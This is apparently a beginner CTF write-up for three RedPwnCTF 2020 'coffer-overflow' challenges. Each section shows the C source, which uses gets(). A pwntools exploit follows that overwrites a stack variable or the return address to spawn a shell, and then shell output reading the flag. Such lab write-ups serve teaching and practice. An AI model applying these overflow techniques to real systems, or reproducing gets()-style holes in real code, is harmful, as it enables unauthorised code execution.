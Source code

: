 ```yaml
---
id: 0
title: "Writeup for RedPwnCTF 2020 coffer-overflow-0, 1, 2"
subtitle: "Beginner's Pwn"
date: "2020.06.26"
tags: "ctf, linux-bof"
---
```


# coffer-overflow 0

### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.

This is our target line:
```c
if(code != 0) {
	system("/bin/sh");
  }
```

As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```

This should redirect us to shell, and with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

# coffer-overflow-1

### Slightly more advanced
We take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
	
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
	system("/bin/sh");
  }
}
```

This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

# coffer-overflow-2

### Ret 2 bin?
Similarly, we take a quick look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

}

void binFunction() {
  system("/bin/sh");
}
```

Ah, now we get to ROP. We simply need to ROP to binFunction() to execute it, which will redirect us to shell.

There are many ways to find the address of the function, we can use `objdump -d` to find the address of binFunction():
```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now we just need to overwrite the `rip` register with this value in little endian.
We take 16 random characters + 8 to overwrite the `rbp` register for a padding of 24.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-2")
p = remote("2020.redpwnc.tf", 31908)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0x4006e6)
p.sendline(payload)
p.interactive()
```

This redirects us to shell:
```
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

# Final words
Overall, these challenges were pretty easy and meant for beginner CTF players, but it was still good practice to get used to the most basic form buffer overflow.